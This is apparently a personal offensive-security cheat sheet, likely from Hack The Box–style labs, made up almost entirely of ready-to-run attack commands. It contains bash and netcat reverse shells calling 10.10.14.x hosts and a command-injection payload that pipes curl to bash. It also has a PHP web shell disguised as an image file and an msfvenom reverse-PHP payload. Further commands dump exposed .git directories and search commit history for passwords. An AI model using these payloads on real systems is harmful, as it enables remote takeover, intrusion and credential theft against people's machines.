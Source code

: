 ### rev shell
```
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/{ip}/{port} 0>&1' > rev.sh
echo "bash -i >& /dev/tcp/{ip}/{port} 0>&1" > /tmp/shell.sh
```
```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4455 >/tmp/f");?>
```
```
/bin/bash -i >& /dev/tcp/10.10.14.5/9001 0>&1
```

### rev shell upload & command
```
test;curl${IFS}http://ip:port/rev.sh|bash;
http://pinocure.com/storage/rce.php?c=curl%2010.10.14.5/shell|bash
```
```
echo '<?php system($_GET["ruang"]); ?>' > shell.jpg
```

### ssh
```
chmod 600 id_rsa

ssh root@pinocure -i id_rsa

ssh pinocure@10.10.11.227

cat /etc/ssh/sshd_config | grep -E 'PermitRootLogin|PubkeyAuthentication'
```

### ssh Local Port Forwading
```
ssh -L 8080:localhost:80 pinocure@10.10.11.136
```

### msfvenom
```
msfvenom -p php/reverse_php LHOST=10.10.14.34 LPORT=4444 -f raw > shell.php
```

### git
```
python3 git_dumper.py http://dev.pinocure.com gitdump

# 유저 정보 수집
git status
git restore --staged . && git diff
git log
git log -p
git log -p | grep -i password
git show {commitID}
```
```
git-dumper http://pinocure.com/dev/.git dev
```
